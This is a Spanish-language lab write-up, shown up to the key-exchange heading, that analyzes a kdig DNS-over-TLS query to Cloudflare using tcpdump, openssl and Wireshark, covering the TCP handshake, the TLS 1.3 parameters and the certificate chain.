


- [Entendiendo lo que pide el ejercicio:](#entendiendo-lo-que-pide-el-ejercicio)
  - [1. Capturar y analizar tráfico cifrado de un cliente DNS-over-TLS - DoT:](#1-capturar-y-analizar-tráfico-cifrado-de-un-cliente-dns-over-tls---dot)
    - [Fase 1 ➡ Análisis de la Aplicación - Cliente DoT](#fase-1--análisis-de-la-aplicación---cliente-dot)
    - [Fase 2 ➡ Interceptación y Descifrado del Tráfico](#fase-2--interceptación-y-descifrado-del-tráfico)
  - [2. Incluir evidencias](#2-incluir-evidencias)
- [Entendiendo que es un cliente DNS-over-TLS - DoT](#entendiendo-que-es-un-cliente-dns-over-tls---dot)
- [Entendiendo el cliente DNS avanzado kdig](#entendiendo-el-cliente-dns-avanzado-kdig)
- [Fase 1](#fase-1)
  - [Instalación de kdig](#instalación-de-kdig)
  - [Consulta con el cliente kdig en @1.1.1.1](#consulta-con-el-cliente-kdig-en-1111)
    - [El Error WARNING: can't connect to 1.1.1.1@853(TLS).](#el-error-warning-cant-connect-to-1111853tls)
      - [1. Verificamos la conexión con el servidor Cloudflare.](#1-verificamos-la-conexión-con-el-servidor-cloudflare)
      - [2. Verificamos si el puerto 853 está bloqueado](#2-verificamos-si-el-puerto-853-está-bloqueado)
  - [Probamos otro IP de Cloudflare para DoT](#probamos-otro-ip-de-cloudflare-para-dot)
  - [Consulta con el cliente kdig en @1.0.0.1](#consulta-con-el-cliente-kdig-en-1001)
  - [Captura del tráfico de red](#captura-del-tráfico-de-red)
  - [Análisis COMPLETO de la sesión TLS](#análisis-completo-de-la-sesión-tls)
    - [Transporte / Socket](#transporte--socket)
      - [IPV4 (AF\_INET)](#ipv4-af_inet)
      - [TCP (SOCK\_STREAM) y puerto 853](#tcp-sock_stream-y-puerto-853)
      - [TCP 3-way handsake (SYN/SYN-ACK/ACK)](#tcp-3-way-handsake-synsyn-ackack)
    - [Handshake TLS](#handshake-tls)
      - [Versión negociada (supported\_versions)](#versión-negociada-supported_versions)
      - [Cipher suite negociada](#cipher-suite-negociada)
      - [Intercambio de claves (ECDHE/PFS) (key\_share x25519)](#intercambio-de-claves-ecdhepfs-key_share-x25519)
      - [Extensiones relevantes](#extensiones-relevantes)
        - [SNI](#sni)
        - [ALPN](#alpn)
      - [Certificado del servidor](#certificado-del-servidor)
        - [Subject / SAN (hostnames)](#subject--san-hostnames)
        - [Cadena de confianza (intermedia/raíz)](#cadena-de-confianza-intermediaraíz)
        - [Validación (OK / trusted)](#validación-ok--trusted)
    - [Datos](#datos)
      - [Tráfico de aplicación cifrado (TLS Application Data)](#tráfico-de-aplicación-cifrado-tls-application-data)
      - [Cierre de conexión (FIN/ACK)](#cierre-de-conexión-finack)
  - [Consultas con las herramientas strace y ldd](#consultas-con-las-herramientas-strace-y-ldd)
    - [Ejecución del cliente kdig bajo strace](#ejecución-del-cliente-kdig-bajo-strace)
    - [Captura del tipo de socket que emplea](#captura-del-tipo-de-socket-que-emplea)
    - [Captura de las syscalls](#captura-de-las-syscalls)
    - [Captura de las Librerias SSL/TLS](#captura-de-las-librerias-ssltls)
- [Fase 2](#fase-2)
  - [Key logging  - Archivo de secretos de TLS → Wireshark](#key-logging----archivo-de-secretos-de-tls--wireshark)
  - [Intercepción activa con proxy TLS / MITM (CA propia)](#intercepción-activa-con-proxy-tls--mitm-ca-propia)
    - [Qué es “proxy TLS / MITM con CA propia”](#qué-es-proxy-tls--mitm-con-ca-propia)
    - [Instalación de la Autoridad de Certificación (CA)](#instalación-de-la-autoridad-de-certificación-ca)
    - [Redirección del tráfico](#redirección-del-tráfico)
    - [Generación de tráfico DoT con kdig](#generación-de-tráfico-dot-con-kdig)
    - [Análisis tras la intercepción en mitmproxy](#análisis-tras-la-intercepción-en-mitmproxy)
    - [Vemos el Tráfico de aplicación descifrado](#vemos-el-tráfico-de-aplicación-descifrado)
    - [El tráfico en wireshark](#el-tráfico-en-wireshark)
- [Técnicas de descrifrado de TLS:](#técnicas-de-descrifrado-de-tls)
  - [Técnica 1: Descifrado pasivo mediante registro de claves (Key Logging)](#técnica-1-descifrado-pasivo-mediante-registro-de-claves-key-logging)
  - [Técnica 2: Descifrado activo mediante Intercepción (Man-in-the-Middle - MitM)](#técnica-2-descifrado-activo-mediante-intercepción-man-in-the-middle---mitm)
  - [Técnica 3: Clave privada del servidor (proxy inverso / off‑path)](#técnica-3-clave-privada-del-servidor-proxy-inverso--offpath)
  - [Técnica 4: Compromiso del endpoint servidor](#técnica-4-compromiso-del-endpoint-servidor)
  - [Técnica 5: Compromiso del endpoint cliente](#técnica-5-compromiso-del-endpoint-cliente)
- [Técnica 5: Hook a la librería TLS - Tipo infostealer](#técnica-5-hook-a-la-librería-tls---tipo-infostealer)
  - [Implementación de la librería ssl\_hook.c](#implementación-de-la-librería-ssl_hookc)
    - [Código Fuente: ssl\_hook.c](#código-fuente-ssl_hookc)
    - [Compilación](#compilación)
    - [Técnica de API Spoofing vía LD\_PRELOAD](#técnica-de-api-spoofing-vía-ld_preload)
    - [Ver los datos descifrados](#ver-los-datos-descifrados)
  - [Programa Python para leer los logs: ssl\_analyzer.py](#programa-python-para-leer-los-logs-ssl_analyzerpy)
  - [Ejecución del Laboratorio Completo](#ejecución-del-laboratorio-completo)
  - [Empleando esta técnica 5 en el cliente kdig](#empleando-esta-técnica-5-en-el-cliente-kdig)
- [Labs de interés sobre Infostealers o Memory scrapers](#labs-de-interés-sobre-infostealers-o-memory-scrapers)
  - [Tusk Infostealer de CyberDefenders](#tusk-infostealer-de-cyberdefenders)
  - [TryHackMe: Módulos de Malware \& Memory Forensics](#tryhackme-módulos-de-malware--memory-forensics)
  - [Hack The Box: Sherlocks \& Machines](#hack-the-box-sherlocks--machines)
- [Ejemplos en theZoo - A Live Malware Repository](#ejemplos-en-thezoo---a-live-malware-repository)
  - [ZeuS (Zbot)](#zeus-zbot)
  - [Dridex](#dridex)
  - [Carberp](#carberp)
  - [Dyre / TrickBot](#dyre--trickbot)


# Entendiendo lo que pide el ejercicio:
## 1. Capturar y analizar tráfico cifrado de un cliente DNS-over-TLS - DoT:
### Fase 1 ➡ Análisis de la Aplicación - Cliente DoT

Primero analizamos su comportamiento, aunque el tráfico vaya cifrado ➡ El objetivo es observar cómo la herramienta `kdig` realiza una consulta DNS segura a un servidor, como el de Cloudflare, 1.1.1.1.

- Realizamos una captura del tráfico.
- Capturamos las llamas al sistema empleadas, tal y como se describe en los Capítulos 4 y 6.
- Identificamos el tipo de socket empleado.
- Identificamos las llamadas de red más importantes utilizadas.
- Identificamos la librería SSL/TLS empleada para cifrar las comunicaciones.
- Hacemos un análisis completo de la sesión TLS establecida entre el cliente y el servidor DNS-over-TLS.


### Fase 2 ➡ Interceptación y Descifrado del Tráfico
Después desciframos ese tráfico usando 2 técnicas diferentes del capitulo 7.


## 2. Incluir evidencias
- De todos los comandos.
- De todas las pruebas:
  - Salidas de terminal.
  - Capturas, y ficheros generados como PCAP.
  - Explicar qué hace cada paso. 


# Entendiendo que es un cliente DNS-over-TLS - DoT
Un cliente DNS-over-TLS (DoT) es, en esencia, un cliente DNS que ha decidido ponerse una capa de seguridad antes de salir a la red. En lugar de gritar nuestras peticiones por megáfono, como hace el DNS tradicional, las mete en un túnel privado y cifrado.

Tradicionalmente, el DNS envía mensajes sobre datagramas UDP, lo cual es rápido pero totalmente legible para cualquiera que esté mirando el tráfico. Un cliente DoT, en cambio, establece una sesión TLS completa con el servidor DNS antes de preguntar nada. Esto implica que la comunicación no es "lanzar y olvidar", sino que requiere un protocolo de enlace (Handshake) previo para asegurar la conexión.


**El objetivo principal de estos clientes es evitar que intermediarios, como nuestro proveedor de internet o un atacante en la red, puedan ver qué páginas estamos intentando visitar.**

Estos clientes utilizan mecanismos avanzados como `Diffie-Hellman Efímero (DHE)` o `Curvas Elípticas (ECDH)` para el intercambio de claves, lo que garantiza que nadie pueda descifrar el tráfico incluso si robaran la clave privada del servidor en el futuro.


# Entendiendo el cliente DNS avanzado kdig
El cliente DoT que recomienda usar el enunciado el ejercicio es `kdig` que es parte del paquete `knot-dnsutils`. Mientras que una herramienta normal como `nslookup` o `dig` usa el `puerto 53 (UDP)`, `kdig` con el parámetro `+tls` busca establecer una conexión segura, normalmente en el `puerto 853`.

El tráfico generado por este cliente aparecerá en Wireshark simplemente como `Application Data`, ocultando la consulta DNS real bajo capas criptográficas. Realizando la última parte del ejercicio, conseguiremos descifrar estas capas.


**En la Fase 1, donde realizaremos un análisis sin descifrar:**
- Wireshark capturará los paquetes, pero al estar cifrados con TLS, el contenido útil se mostrará etiquetado simplemente como `Application Data`.
- En esta etapa sólo podremos ver el "envoltorio":
  - Las direcciones IP.
  - Los puertos, normalmente el 853 para DoT.
  - El Handshake de TLS, donde se intercambian certificados y se negocian algoritmos.
- La consulta DNS real y su respuesta serán totalmente ilegibles.

**En la Fase 2, tras el descifrado:** Al aplicar las técnicas que menciona el documento, como el uso de SSLKEYLOGFILE o un proxy como mitmproxy, ocurrirá lo siguiente:
- Wireshark utilizará las claves de sesión obtenidas para ver las capas criptográficas en tiempo real.
- Debajo de la capa de `Transport Layer Security`, aparecerá una nueva sección en el análisis del paquete llamada `Domain Name System`.
- Ahí podremos ver finalmente el `texto claro`: el nombre de dominio consultado, el tipo de registro (A, AAAA, MX) y la dirección IP devuelta por el servidor.


# Fase 1
Ejecutamos una consulta DNS cifrada (DoT) con kdig contra el servidor DoT de Cloudflare (1.1.1.1 puerto 853), validando correctamente el certificado TLS usando el nombre one.one.one.one, y luego analizaremos este tráfico.


## Instalación de kdig
En Debian, kdig viene en el paquete knot-dnsutils.
```
sudo apt update
sudo apt install -y knot-dnsutils ca-certificates
```
donde:
- El ca-certificates es para que la validación de certificados TLS funcione con el almacén del sistema, que es lo que usa +tls-ca.


Comprobamos que está instalado: 
```
kdig -V
kdig, Knot DNS 3.4.6
```

## Consulta con el cliente kdig en @1.1.1.1
```
kdig -d @1.1.1.1 +tls-ca +tls-host=one.one.one.one example.com
```
donde:
- `-d`: activa mensajes de depuración.
- `kdig`: el programa cliente DNS.
- `@1.1.1.1`: servidor DNS a la que lanza la consulta, en este caso Cloudflare.
- `+tls-ca`: Opción que indica que usa TLS y valida el certificado con autoridades de certificación (CA).
- `+tls-host=one.one.one.one`: Opción que indica que cuando valide el certificado, debe comprobar que corresponde al hostname one.one.one.one. Esto evita que un atacante haga MITM con otro certificado. En TLS, el hostname es importante porque el certificado del servidor se valida contra ese nombre, no contra la IP.
- `example.com`: el dominio que está consultando.


**<mark>Lo que estamos haciendo es: Ejecutar una consulta DNS cifrada (DoT) con kdig contra el servidor DoT de Cloudflare (1.1.1.1 puerto 853), validando correctamente el certificado TLS usando el nombre one.one.one.one, para luego, analizar ese tráfico.</mark>**


  
donde:
- Puerto y Protocolo: La línea de `DEBUG` indica que se está intentando conectar al `puerto 853` usando el `protocolo TCP`. Esto es fundamental, ya que el `DNS` estándar usa `UDP/53`, pero DoT requiere una conexión orientada a flujo (`TCP`) para establecer el `túnel TLS`.
- Interacción con Librerías: El mensaje `imported 146 system certificates` indica que `kdig` está utilizando las librerías criptográficas del sistema para validar la identidad del servidor de Cloudflare. Esto da una pista sobre la `librería SSL/TLS` que mencionan los apuntes de clase, probablemente `GnuTLS` u `OpenSSL`, dependiendo de la distribución Linux usada.


### El Error WARNING: can't connect to 1.1.1.1@853(TLS).
Ese error significa que no logramos establecer una conexión TCP/TLS hacia 1.1.1.1 en el puerto 853.

#### 1. Verificamos la conexión con el servidor Cloudflare.
```
ping -c 2 1.1.1.1
```
  
donde:
- Confirmamos que hay conexión con el servidor Cloudflare.

#### 2. Verificamos si el puerto 853 está bloqueado
  
donde:
- El servidor, o un firewall intermedio, ha enviado un paquete `TCP RST` (`Reset`), cerrando activamente el intento de conexión.
- No sabemos la causa pero <mark>esto nos obliga a usar otro servidor de Cloudflare para DoT.</mark>


## Probamos otro IP de Cloudflare para DoT
Vemos en la documentación que Cloudflare ofrece DoT en TCP/853 sobre 1.1.1.1 y 1.0.0.1 (y sus IPv6) [DNS over TLS](https://developers.cloudflare.com/1.1.1.1/encryption/dns-over-tls/). Probamos si tenemos conexión con este servidor DOT en 1.0.0.1:
```
nc -vz 1.0.0.1 853
```


donde:
- Observamos que se establece la conexión en ese servidor y con ese puerto.
- **<mark>Realizaremos el ejercicio usando este servidor.</mark>**


## Consulta con el cliente kdig en @1.0.0.1
Ejecutamos kdig contra 1.0.0.1 (Cloudflare):
  
donde:
- **1) Evidencia de que realmente estamos usando el cliente DoT contra Cloudflare, usando TCP + 853:**
    - `;; DEBUG: Querying for owner(example.com.), class(1), type(1), server(1.0.0.1), port(853), protocol(TCP)`
    - `owner(example.com.)`: el nombre consultado `example.com`.
    - `type(1)`: el tipo A (IPv4). En DNS, el tipo A es el código 1.
    - `class(1)`: clase IN (Internet). En DNS, IN es el código 1.
    - `server(1.0.0.1), port(853), protocol(TCP)`: confirma que la consulta va a `1.0.0.1` por `TCP/853`, que es el puerto estándar de DoT.

- **2) Evidencia de validación `TLS` con `CAs` del sistema**
    - `;; DEBUG: TLS, imported 151 system certificates`
    - `+tls-ca` hace que kdig cargue el almacén de `CA` del sistema, o el path que corresponda, para validar el certificado del servidor.
    - `“151 system certificates”` es evidencia de que está usando el `trust store` del sistema para la validación.

- **3) Cadena de certificados `certificate chain` presentada por el servidor:**
    - `;; DEBUG: TLS, received certificate hierarchy:`
    - Certificado #1 (leaf / servidor): `#1 ... O=Cloudflare, Inc., CN=cloudflare-dns.com`
        - Este es el certificado del servidor (leaf-hoja).
        - xxxx Ojo: el comando indica `+tls-host=one.one.one.one`, pero el `CN` que imprime `kdig` es `cloudflare-dns.com`. Eso no es necesariamente un problema: hoy en día lo que manda para hostname validation suele ser el SAN `(Subject Alternative Name)`, no el `CN`. Es muy posible que el `SAN` incluya `one.one.one.one` y/o nombres del servicio DoT de Cloudflare.
        - xxxxx Para una evidencia “cerrada” en memoria, conviene añadir una captura complementaria con openssl s_client mostrando SANs (te dejo el comando al final).

        - `SHA-256 PIN: ....` kdig muestra el pin (hash) de la clave pública/cert para pinning. Es información útil para “fingerprinting” del certificado, pero no imprescindible salvo que el guion del curso pida pinning. xxxxx

    - Certificado `#2 (intermediate): #2 ... CN=SSL.com SSL Intermediate CA ECC R2`: Es el certificado intermedio (CA intermedia) que firma el leaf.
    
    - Certificado `#3 (root): #3 ... CN=SSL.com Root Certification Authority ECC`: Es el certificado raíz (root CA) del que deriva la confianza (normalmente ya está en el sistema o se valida por cadena hasta un root confiable).

- **4) Pinning y confianza del certificado:**
    - `;; DEBUG: TLS, skipping certificate PIN check`: Indica que no se está aplicando pinning, ya que no se ha configurado un pin.
    - `;; DEBUG: TLS, The certificate is trusted.`: Esta es la evidencia principal de que la verificación TLS con CA ha sido correcta: el certificado presentado por el servidor es confiable según el almacén del sistema (y la validación que hace kdig con los parámetros que le diste).


- **5) Parámetros criptográficos de la sesión TLS:** Esto es muy importante para el análisis del handshake:
    - `;; TLS session (TLS1.3)-(ECDHE-X25519)-(ECDSA-SECP256R1-SHA256)-(AES-256-GCM)`. Esta línea resume lo esencial del canal cifrado:
        - `TLS1.3`: La sesión negoció TLS 1.3 (moderno; handshake y cifrados distintos a TLS 1.2).
        - `ECDHE-X25519`: intercambio de claves efímero con `curva X25519`, Perfect Forward Secrecy.
        - `ECDSA-SECP256R1-SHA256`: Autenticación/firmas con `ECDSA` (`curva P-256` / `secp256r1`) y `hash SHA-256`.
        - `AES-256-GCM`: cifrado simétrico de la sesión con `AES-GCM` (`AEAD`), clave 256 bits.


- **6) Interpretación de la respuesta DNS (ya dentro del túnel TLS):**
    - Cabecera DNS:
      - `->>HEADER<<- opcode: QUERY; status: NOERROR; id: 33829`
        - opcode: QUERY: consulta estándar.
        - status: NOERROR: resolución correcta.
        - id: 33829: identificador de transacción DNS (sirve para emparejar request/response).
      - `;; Flags: qr rd ra; QUERY: 1; ANSWER: 2; AUTHORITY: 0; ADDITIONAL: 1`
        - qr: es respuesta (Query Response).
        - rd: Recursion Desired (el cliente pidió recursión).
        - ra: Recursion Available (el resolver la ofrece).
        - QUERY: 1: una pregunta.
        - ANSWER: 2: dos registros en la respuesta.
        - ADDITIONAL: 1: información adicional (aquí se ve que es EDNS).
    - EDNS y padding:
      - `;; EDNS PSEUDOSECTION: ... UDP size: 1232 B ... PADDING: 392 B`
        - Aunque estamos usando TCP/TLS, se sigue usando EDNS(0) como mecanismo de extensión.
        - UDP size 1232 B: tamaño anunciado típico “seguro” (1232) para evitar fragmentación en muchos entornos; es un valor común en resolvers modernos.
        - PADDING 392 B: esto es relevante para privacidad: el padding ayuda a homogeneizar tamaños y reducir filtraciones por longitud (traffic analysis). En DoT/DoH se utiliza precisamente para mitigar correlación por tamaño de paquete.

    - Pregunta y respuesta:
      - `;; QUESTION SECTION: example.com. IN A`:
        - Pregunta: A de example.com.
      - `;; ANSWER SECTION: ... 104.18.27.120`
        ... 104.18.26.120
        - Dos A records (dos IPv4) con TTL 101 segundos (lo que queda de caché en el resolver en ese momento).


- **7) Métricas de transferencia y latencia:**
    - `;; Received 468 B`: Tamaño total del mensaje DNS (a nivel aplicación DNS) recibido.
    - `;; Time 2026-01-17 18:15:45 CET`: Marca de tiempo del sistema donde ejecutaste el comando (útil como evidencia de cuándo se hizo la prueba).
    - `;; From 1.0.0.1@853(TLS) in 56.7 ms`: Confirma de nuevo: servidor 1.0.0.1, puerto 853, sobre TLS.
    - `56.7 ms`: latencia de la consulta (incluye establecimiento/uso de sesión).
  

**Capturas/“evidencias” para incluir en el informe:**
- La primera línea DEBUG (TCP/853) y la última (From 1.0.0.1@853(TLS)).
- La línea de “The certificate is trusted”.
- La línea del “TLS session (TLS1.3)…”.
- La sección EDNS con PADDING (porque es un indicador claro de medidas anti-análisis de tráfico).
- QUESTION y ANSWER.


------------------------------

xxxxxx

**Tema del hostname vs CN**
Como kdig muestra CN=cloudflare-dns.com pero como nosotros validamos contra one.one.one.one, conviene añadir una evidencia con SANs:
```
openssl s_client -connect 1.0.0.1:853 -servername one.one.one.one -CApath /etc/ssl/certs </dev/null 2>/dev/null | openssl x509 -noout -subject -issuer -ext subjectAltName
```
donde:
- Podemos demostrar explícitamente que one.one.one.one (u otros nombres equivalentes del servicio) aparecen en subjectAltName, que es lo que normalmente se valida.


``` 
subject=C=US, ST=California, L=San Francisco, O=Cloudflare, Inc., CN=cloudflare-dns.com
issuer=C=US, ST=Texas, L=Houston, O=SSL Corp, CN=SSL.com SSL Intermediate CA ECC R2
X509v3 Subject Alternative Name: 
    DNS:cloudflare-dns.com, DNS:*.cloudflare-dns.com, IP Address:1.0.0.1, IP Address:1.1.1.1, IP Address:162.159.36.1, IP Address:162.159.46.1, IP Address:2606:4700:4700:0:0:0:0:1001, IP Address:2606:4700:4700:0:0:0:0:1111, IP Address:2606:4700:4700:0:0:0:0:64, IP Address:2606:4700:4700:0:0:0:0:6400, DNS:one.one.one.one
```

-----------------------------

## Captura del tráfico de red
**Analizamos la configuración de red de la máquina virtual:**
  
donde:
- La interfaz de red es la enp0s3.

----

**Capturamos el tráfico en la interfaz de salida cuando se lanza kdig:**
```
sudo tcpdump -ni enp0s3 host 1.0.0.1 and tcp port 853 -w trafico_cloudflare_1.0.0.1.pcap
```
  
donde:
- Filtraremos por la IP de Cloudflare (1.0.0.1).
- Filtraremos por el puerto 853.

----


**En otra terminal, lanzamos varias consultas:**
```
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one example2.com
kdig -d @1.0.0.1 +tls-ca +tls-host=one.one.one.one cloudflare.com
```

----


**Archivo pcap obtenido:**
 
con este fichero pcap:
- demostraremos que el tráfico es TCP/853,
- analizaremos el handshake TLS,
- y, más adelante, descifraremos este tráfico con dos técnicas del capítulo 7.


-----


## Análisis COMPLETO de la sesión TLS
Aunque aún no corresponde descrifrar, ya que eso se verá en la Fase 2, vamos a realizar un análisis completo de la sesión TLS establecida entre el cliente y el servidor DNS-over-TLS


**Identificamos una sesión - stream - TLS concreta:** Como hemos lanzado 3 veces el comando kdig, habrá varias conexiones TCP, con varios handshakes. Para elegir un handshake concreto:
- Vamos a: Statistics → Conversations → TCP
- Buscamos conversaciones donde uno de los puertos sea 853 y el peer sea 1.0.0.1
   


**Seleccionamos una conversación, por ejemplo la primera que tiene un Stream ID = 0:**
Filtramos por ese stream 0: Se ha seleccionado el Stream TCP 0 para el análisis, el cual contiene el intercambio completo de la primera consulta DNS-over-TLS. En este flujo se observa el Handshake inicial donde el cliente propone las suites de cifrado y el servidor Cloudflare responde con la configuración final.
```
tcp.stream == 0
```
  
donde vemos una visión general del flujo de comunicación:
- TCP Handshake. Se comprueba que DoT va por TCP y que se usa el puerto 853:
  - Paquete 1: `10.0.2.15:49761 → 1.0.0.1:853 [SYN]`.
  - Paquete 2: `1.0.0.1:853 → 10.0.2.15:49761 [SYN, ACK]`.
  - Paquete 3: `[ACK]`.
  
- Handshake TLS 1.3 - Inicio del canal cifrado:
  - Paquete 4: `TLSv1.3 Client Hello` y en el campo “Info” ya aparece: `SNI=one.one.one.one`. Esto es una evidencia directa de la extensión SNI (Server Name Indication).
  - Paquete 6: `TLSv1.3 Server Hello, Change Cipher Spec`.
    - Wireshark etiqueta la sesión como `TLSv1.3`, así que la versión negociada de TLS es TLS 1.3.
    - Campo tipo `Supported Version: TLS 1.3`. Suele aparecer como mensaje de compatibilidad.

- Tráfico cifrado de aplicación - DNS dentro de TLS. Es tráfico cifrado, donde va la consulta DNS y la respuesta:
  - Paquete 8.
  - Paquete 12.
  - Paquete 13.
  - Paquete 16.
  - Paquete 17.


- Cierre de la conexión:
  - Paquete 18: el cliente envía FIN, ACK.
  - El servidor responde ACK y luego su FIN, ACK


### Transporte / Socket

#### IPV4 (AF_INET)
Seleccionamos el paquete 4 y en el panel inferior Packet Details:  

donde:
- `Internet Protocol Version 4`.
- `Version: 4`.
- `Src: 10.0.2.15`.
- `Dst: 1.0.0.1`.


En el PCAP, los paquetes del flujo DoT muestran Internet Protocol Version 4. Con origen 10.0.2.15 y destino 1.0.0.1. Por tanto, <mark>la familia de direcciones utilizada es IPv4, equivalente a un socket AF_INET.</mark>

En el PCAP se observa que la comunicación es sobre IPv4, por lo que la familia de direcciones corresponde a AF_INET, y que el transporte es TCP hacia el puerto 853. Para evidenciar el uso explícito de SOCK_STREAM y las llamadas socket()/connect()/read-write()/close(), se completará usando el comando `strace` en el apartado xxxxxxx.


#### TCP (SOCK_STREAM) y puerto 853
Seleccionamos el primer SYN inicial, que es el primer paquete del stream 0.

donde en Transmission Control Protocol:
- Src Port: 49761
- Dst Port: 853
- Flags: 0x002 (SYN) / “Syn: Set” →  Esto confirma TCP + puerto 853 + inicio del handshake.

Se observa que <mark>la sesión DoT se establece sobre TCP, iniciándose con un paquete SYN desde 10.0.2.15:49761 hacia 1.0.0.1:853. El puerto destino 853 identifica el servicio DoT, mientras que 49761 es un puerto efímero del cliente.</mark>


#### TCP 3-way handsake (SYN/SYN-ACK/ACK)

donde:
- Paquete 1 (cliente → servidor)
  - 10.0.2.15:49761 → 1.0.0.1:853 [SYN]
  - El cliente inicia la conexión TCP hacia el servicio DoT en el puerto 853.

- Paquete 2 (servidor → cliente)
  - 1.0.0.1:853 → 10.0.2.15:49761 [SYN, ACK]
  - El servidor acepta la petición y responde confirmando (ACK) y sincronizando (SYN).

- Paquete 3 (cliente → servidor)
  - 10.0.2.15:49761 → 1.0.0.1:853 [ACK]
  - El cliente confirma la respuesta del servidor. Con esto queda establecida la conexión TCP.


<mark>Se observa el establecimiento TCP mediante el 3-way handshake</mark>: SYN (cliente → servidor :853), SYN/ACK (servidor → cliente) y ACK final (cliente → servidor). Tras este intercambio, la sesión TCP queda establecida y puede comenzar el handshake TLS de DoT.

### Handshake TLS

#### Versión negociada (supported_versions)
Dentro del paquete 6, en el panel inferior de Package Details → Versión negociada: TLS 1.3, por supported_versions:  


Nota: Aunque vemos `Version: TLS 1.2 (0x0303)`, la sesión es TLS 1.3. En TLS 1.3, muchos campos muestran un `legacy_version 0x0303`, que parece TLS 1.2 por compatibilidad. Sin embargo, <mark>la versión real negociada se evidencia en la extensión: `Extension: supported_versions TLS 1.3`.</mark>

------


#### Cipher suite negociada
Para ver el nombre de la cipher suite hacemos click en el paquete 6 y en el panel inferior de Package Details buscaremos Cipher Suite:
  
donde:
- Cipher Suite: `TLS_AES_256_GCM_SHA384 (0x1302)`
- `AES_256_GCM`:
  - Cifrado simétrico `AES` con clave de 256 bits en modo GCM (AEAD).
  - GCM aporta confidencialidad + integridad/autenticación, no se necesita una MAC aparte.
- `SHA384`: Hash usado en TLS 1.3 para derivación de claves (HKDF) y para el transcript del handshake.


En TLS 1.3, la cipher suite define principalmente:
- El cifrado simétrico, para los datos de aplicación, y
- La función hash asociada al HKDF y al transcript del handshake.

A diferencia de TLS 1.2, en TLS 1.3 la cipher suite ya no incluye en su nombre el intercambio de claves (ECDHE) ni el algoritmo de firma (RSA/ECDSA). Esto se negocia en otros campos, como key_share, supported_groups, y el signature_algorithms.


Resumiendo, en este ServerHello se observa que <mark>la cipher suite negociada TLS_AES_256_GCM_SHA384 (0x1302)</mark>. En TLS 1.3 esta suite indica que:
- <mark>El tráfico de aplicación se cifra con AES-256 en modo GCM (AEAD).</mark>
- <mark>Se emplea SHA-384 en la derivación de claves y el transcript del handshake.</mark>
- El intercambio de claves efímero no forma parte del nombre de la suite en TLS 1.3. Se evidencia aparte mediante la extensión `key_share` (que analizamos en el siguiente apartado).


-------


#### Intercambio de claves (ECDHE/PFS) (key_share x25519)
Dentro del mismo paquete 6, en el panel inferior de Package Details:  
